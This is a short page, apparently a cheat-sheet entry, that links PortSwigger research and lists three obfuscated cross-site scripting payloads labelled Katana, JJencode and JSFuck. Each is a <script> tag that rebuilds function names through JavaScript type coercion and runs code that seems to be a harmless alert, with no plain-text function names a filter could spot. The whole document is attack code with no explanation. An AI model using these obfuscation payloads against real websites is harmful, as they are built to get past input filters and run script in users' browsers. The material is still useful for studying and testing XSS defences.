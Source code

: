 * [https://portswigger.net/research/the-seventh-way-to-call-a-javascript-function-without-parentheses](https://portswigger.net/research/the-seventh-way-to-call-a-javascript-function-without-parentheses)

```javascript
//Katana
<script>([,ウ,,,,ア]=[]+{},[ネ,ホ,ヌ,セ,,ミ,ハ,ヘ,,,ナ]=[!!ウ]+!ウ+ウ.ウ)[ツ=ア+ウ+ナ+ヘ+ネ+ホ+ヌ+ア+ネ+ウ+ホ][ツ](ミ+ハ+セ+ホ+ネ+'(-~ウ)')()</script>
```

```javascript
//JJencode 
<script>$=~[];$={___:++$,$:(![]+"")[$],__$:++$,$_$_:(![]+"")[$],_$_:++$,$_$:({}+"")[$],$_$:($[$]+"")[$],_$:++$,$_:(!""+"")[$],$__:++$,$_$:++$,$__:({}+"")[$],$_:++$,$:++$,$___:++$,$__$:++$};$.$_=($.$_=$+"")[$.$_$]+($._$=$.$_[$.__$])+($.$=($.$+"")[$.__$])+((!$)+"")[$._$]+($.__=$.$_[$.$_])+($.$=(!""+"")[$.__$])+($._=(!""+"")[$._$_])+$.$_[$.$_$]+$.__+$._$+$.$;$.$=$.$+(!""+"")[$._$]+$.__+$._+$.$+$.$;$.$=($.___)[$.$_][$.$_];$.$($.$($.$+"\""+$.$_$_+(![]+"")[$._$_]+$.$_+"\\"+$.__$+$.$_+$._$_+$.__+"("+$.___+")"+"\"")())();</script>
```

```javascript
//JSFuck
<script>(+[])[([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+([][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[[+!+[]]+[!+[]+!+[]+!+[]+!+[]]]+[+[]]+([][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[[+!+[]]+[!+[]+!+[]+!+[]+!+[]+!+[]]])()</script>
```
